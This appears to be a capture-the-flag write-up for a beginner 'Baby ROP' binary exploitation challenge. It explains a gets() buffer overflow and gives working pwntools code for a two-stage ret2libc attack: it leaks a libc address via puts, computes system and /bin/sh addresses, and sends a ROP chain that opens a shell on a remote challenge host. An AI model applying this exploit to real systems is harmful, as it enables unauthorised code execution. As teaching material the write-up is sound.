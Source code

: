 
## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
Ghidra reveals the use of the unsafe `gets()` function for input handling. This creates a classic buffer overflow vulnerability that we can exploit with a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

#### Stage 1: Libc Address Leak
Since ASLR randomizes libc addresses, we first need to leak a known function address from the Global Offset Table (GOT).

```python
from pwn import *

# Setup
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
io = remote("34.159.211.30", 32627)
# io = process("./pwn_baby_rop", env=env)  # For local testing

io.recvuntil("black magic.\n")

# ROP gadgets and addresses
pop_rdi = 0x00401663  # pop rdi; ret
puts_got = 0x404018   # puts GOT entry
puts_plt = 0x401060   # puts PLT entry
main = 0x40145C       # main function address

# Stage 1: Leak puts address from libc
payload = b"A" * 256  # Buffer overflow padding
payload += b"B" * 8   # RBP overwrite
payload += p64(pop_rdi)    # Set up argument
payload += p64(puts_got)   # Address to leak (puts GOT)
payload += p64(puts_plt)   # Call puts to print the address
payload += p64(main)       # Return to main for second stage

io.sendline(payload)

# Parse the leaked address
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("Leaked puts address: " + hex(puts_addr))
```

#### Stage 2: Libc Database Lookup and System Call
Using the leaked puts address, we identify the libc version through libc database searches. The offsets help us calculate other function addresses.

```python
# Libc offsets (found via libc database)
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset = 0x1b75aa

# Calculate addresses
libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("Libc base: " + hex(libc_base))
log.info("System address: " + hex(system_addr))
log.info("/bin/sh address: " + hex(bin_sh_addr))

# Stage 2: Call system("/bin/sh")
simple_ret = 0x0040101a  # ret gadget for stack alignment

payload = b"A" * 256     # Buffer overflow
payload += b"B" * 8      # RBP overwrite
payload += p64(pop_rdi)  # Setup argument register
payload += p64(bin_sh_addr)  # "/bin/sh" string address
payload += p64(simple_ret)   # Stack alignment
payload += p64(system_addr)  # Call system()

io.sendline(payload)
io.interactive()  # Get shell access
```

### Complete Exploit### Key Learning Points:

1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Stack Alignment**: Modern systems require 16-byte stack alignment for some functions
6. **Libc Database**: Using leaked addresses to identify exact libc version

### Tools Used:
- **Ghidra**: Static analysis and reverse engineering
- **pwntools**: Exploit development framework
- **ROPgadget**: Finding ROP gadgets
- **Libc database**: Identifying libc version from leaked addresses

### Mitigation Bypassed:
- **NX bit**: Executed existing code instead of injecting shellcode
- **ASLR**: Leaked addresses to calculate randomized locations

This is a classic introduction to modern binary exploitation techniques!
